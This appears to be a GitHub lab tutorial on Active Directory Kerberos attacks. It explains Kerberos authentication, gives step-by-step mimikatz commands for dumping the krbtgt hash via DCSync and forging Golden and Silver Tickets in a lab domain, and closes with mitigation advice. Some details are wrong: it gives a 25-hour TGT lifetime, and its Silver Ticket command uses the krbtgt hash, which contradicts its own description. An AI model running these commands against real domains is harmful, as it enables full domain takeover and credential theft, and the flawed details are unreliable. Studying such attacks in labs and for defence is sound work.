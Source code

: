 <h1 style="color:red">#EnterpriseNetworkingSquad</h1>

## Active Directory Attacks



<h1></h1>
<h3 style="color:orange">What is Kerberos?</h3>

Kerberos is designed to provide authentication of user identity in a networked computing environment consisting of workstations and servers.

The Kerberos authentication system is built on top of tickets served by KDC (Key Distribution Center). The core idea behind Kerberos is that the users don’t share account passwords to each service they want to use. Instead, they share a ticket which they get from KDC.
When a user first starts using the system, they will use their password to get a master ticket called a TGT (Ticket Granting Ticket). This master ticket expires in 25 hours, after which, the user will need to enter the password again to get another one.
When the user needs service access, that uses Kerberos, they will show that master ticket (TGT) to the Kerberos server and get a ticket specifically for that service. Then, user shows the ticket just for that service to the service to prove who you are.



<h1></h1>
<h3 style="color:orange">Steps in Kerberos Authentication</h3>

1. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request (as Request).

2. The Domain Controller (KDC) checks user information & creates Ticket-Granting Ticket (TGT).

3. The TGT is encrypted, signed, & delivered to the user (as Response). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.

4. The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS Request). The data in the TGT is effectively copied to create the TGS ticket.

5. The TGS is encrypted using the target service account's NTLM password hash and sent to the user (TGS Response).

6. The user connects to the server hosting the service on the appropriate port & presents the TGS. The service opens the TGS ticket using its NTLM password hash.


<h1></h1>
<h2 style="color:yellow">Golden Ticket Attack</h2>

A Golden Ticket attack is when an attacker has complete and unrestricted access to an entire domain — all computers, files, folders, and most importantly, the access control system itself. Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain’s Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGT) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS). Because the attacker is controlling the component of the access control system that is responsible for issuing Ticket Granting Tickets (TGT), then he has the golden ticket to access any resource on the domain.


<h3>Requirements:</h3>
1. Domain Name
2. Domain SID
3. Domain's KRBTGT Account NTLM Hash
4. UserID for impersonation

<h3>Steps to Perform the Attack</h3>

1. Login into any user (Anuvinda user) and open powershell. Navigate to ```mimikatz.exe``` and execute the exe file.

![](AD_Attacks/1.png)

2. Run ```lsadump::dcsync /domain:Mahabharata.ns /user:krbtgt```. If you don't know the Domain Controller name then use ```get-aduser krbtgt``` command and observe the Domain Controller name. Note the domain SID and NTLM Hash of krbtgt user from the output.

![](AD_Attacks/2.png)

3. Run ```kerberos::golden /domain:Mahabharata.ns /sid:<Your Domain SID> /rc4:<NTLM Hash of krbtgt user> /id:500 /user:<Your user name>``` to generate the golden ticket.

![](AD_Attacks/3.png)

4. Run ```kerberos::ptt ticket.kirbi``` to pass the generated ticket to get Domain Controller's privileges.

![](AD_Attacks/4.png)

5. Open Command Promt and observe that you got Domain Controller's privileges.

![](AD_Attacks/5.png)


<h1></h1>
<h2 style="color:yellow">Silver Ticket Attack</h2>

A Silver Ticket is a forged service authentication ticket. An Attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services (low-level Operating System programs) to log in without double-checking that their token is actually valid, which hackers have exploited to create Silver Tickets. Silver Tickets are harder to detect than Golden Tickets because there is no communication between the service and the DC – and any logging is local to the targeted computer.


<h3>Steps to Perform the Attack</h3>

1. Login into any user (Anuvinda user) and open powershell. Navigate to ```mimikatz.exe``` and execute the exe file.

![](AD_Attacks/6.png)

2. Run ```kerberos::golden /domain:Mahabharata.ns /sid:<Your Domain SID> /ptt /id:500 /service:<Service Name> /rc4:<NTLM Hash of krbtgt user> /user:<Your user name>```

![](AD_Attacks/7.png)

3. Exit the mimikatz and run ```klist``` to list the created user for MSSQL service.

![](AD_Attacks/8.png)


<h1></h1>
<h2 style="color:orange">Mitigation</h2>


<h2 style="color:yellow">Golden Ticket Attack</h2>

Golden Tickets are very difficult to detect, because they are perfectly valid TGTs. However, in most cases they are created with lifespans of 10 years or more, which far exceeds the default values in Active Directory for ticket duration. Unfortunately, event logs do not log the TGT timestamps in the authentication logs, but other AD monitoring products are capable of doing so. If you do see that Golden Tickets are in use within your organization, you must `reset the KRBTGT account twice`, which may have other far-reaching consequences.

The most important protection against golden tickets is to `restrict Domain Controller logon rights`. There should be the absolute `minimum number of Domain Admins`, as well as members of other groups that provide logon rights to DCs such as Print and Server Operators. In addition, `a tiered logon protocol should be used` to prevent Domain Admins from logging on to servers and workstations where their password hashes can be dumped from memory and used to access a DC to extract the KRBTGT account hash.


<h2 style="color:yellow">Silver Ticket Attack</h2>

Detecting Silver Tickets can be very difficult since this bypasses the entire TGT portion of authentication and cannot be monitored by looking at Domain Controller logs. The best way to prevent these attacks is to enforce proper security over service accounts to avoid having these accounts compromised to begin with. Monitoring for logon anomalies using local logon events, such as the one shown above, can also be effective in protecting your organization. Additional mitigation steps:

1. Limit credential overlap across systems to prevent the damage of credential compromise

2. Ensure that local administrator accounts have complex, unique passwords

3. Do not allow a user to be a local administrator for multiple systems

4. Limit domain admin account permissions to domain controllers and limited servers

5. Delegate other admin functions to separate accounts
